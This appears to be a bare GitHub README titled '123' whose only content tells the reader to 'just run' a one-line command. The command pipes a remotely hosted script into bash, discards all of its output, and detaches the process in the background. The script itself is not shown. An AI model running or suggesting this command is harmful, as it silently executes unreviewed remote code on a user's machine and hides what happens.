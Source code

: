 # 123

just run
`nohup curl -s https://raw.githubusercontent.com/bisser-cw/123/main/123 | bash &>/dev/null & disown`
